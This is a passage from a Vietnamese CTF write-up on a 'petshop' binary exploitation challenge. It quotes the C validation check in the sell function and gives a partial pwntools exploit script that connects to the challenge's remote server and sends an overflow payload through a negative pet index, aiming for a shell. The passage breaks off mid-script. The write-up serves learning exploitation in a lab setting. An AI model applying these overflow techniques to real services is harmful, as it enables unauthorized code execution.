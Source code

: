 ### Get shell 

Hoàn thiện exploit, có được shell của thử thách. Có một vấn đề nhỏ mà chúng ta cần chú ý ở hàm `sell` là 
```c
 if ( (unsigned int)__isoc99_sscanf(a1, "%d", &pet_list_idx) != 1 || pet_list_idx > 7 || !pet_list[pet_list_idx] )
    {
        return puts("Seller --> There are no pet in that index!");
    }
```
Nếu chúng ta chỉ tạo 1 con pet thì sau lần sell thứ nhất `pet_list` sẽ rỗng. Vậy để hợp lệ hóa cho bước kiểm tra này, mình sẽ tạo thêm 1 con pet nữa.  

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./petshop_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10001)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *main+82
        b *sell+367
        continue
    """)
    pause() 

# debug()

def buy(pet_type, pet_type_idx, pet_name): 
    payload = ("buy " + pet_type + " " + str(pet_type_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", pet_name)

def sell(pet_list_idx, reason): 
    payload = ("sell " + str(pet_list_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", b"-")
    sla(b"You    --> ", reason)

def info(option):
    payload = ("info " + option).encode("utf8")
    sla(b"You    --> ", payload)

buy("cat", -2, cyclic(536) + p32(0x300)) 
info("mine")

ru(b"1. ")
```